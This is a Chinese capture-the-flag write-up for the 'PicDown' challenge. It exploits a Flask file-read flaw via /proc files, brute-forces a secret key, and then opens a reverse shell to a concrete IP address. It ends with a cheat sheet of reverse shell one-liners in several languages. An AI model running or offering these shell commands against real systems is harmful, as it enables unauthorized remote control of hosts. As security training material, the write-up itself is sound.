


PicDown
十二月 16, 2020
知识点
- 文件包含
- linux信息文件读取
做题思路
开局就可以找到一个文件读取的地方，利用burp就可以抓取数据

之后你可以直接读取到flag了[
我感觉有点奇怪，这道题应该没那么简单，看了别人的WP才知道应该读取linuxproc下的文件，这里整理一下：
1 | /proc/[pid]/cmdline #查看当前linux正在执行什么命令，在这里pid不知道的情况下我们可以通过self代指当前web端的文件 |
既然是flask文件，那么我们可以尝试读取app.py，获取源码：
1 | from flask import Flask, Response |
接下来我们就要去拿到key，直接读取/tmp/secret.txt会读取不到，因为已经被删掉了，那么我们就应该去尝试读取/proc/self/fd/3，结果还是出不来，这下就只能爆破了。。。看看回显长度明显不对的
1 | import requests,time |
这里我得进程是14，爆破得到
1 | yoKTwnWJilxVJnoa8y9HwwAAagZ7aKs0MGPKhMbjYWA= |
既然只能执行os.system,直接反弹shell
1 | python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("118.89.227.105",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);' |
弹过去就拿到shell了

这里顺便把各种语言一句话反弹shell记录在此：
python:
1 | python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("x.x.x.x",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);' |
perl:
1
1 | perl -e 'use Socket;$i="x.x.x.x";$p=5555;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};' |
2
1 | perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"x.x.x.x:5555");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;' |
Ruby
1 | ruby -rsocket -e 'exit if fork;c=TCPSocket.new("x.x.x.x","5555");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end' |
PHP
1 | php -r '$sock=fsockopen("x.x.x.x",5555);exec("/bin/bash -i <&3 >&3 2>&3");' |
1 | public class Revs { |
Lua
1 | lua -e "require('socket');require('os');t=socket.tcp();t:connect('x.x.x.x','5555');os.execute('/bin/sh -i <&3 >&3 2>&3');" |
AWK
1 | awk 'BEGIN{s="/inet/tcp/0/x.x.x.x/8080";for(;s|&getline c;close(c))while(c|getline)print|&s;close(s)}' |
查看评论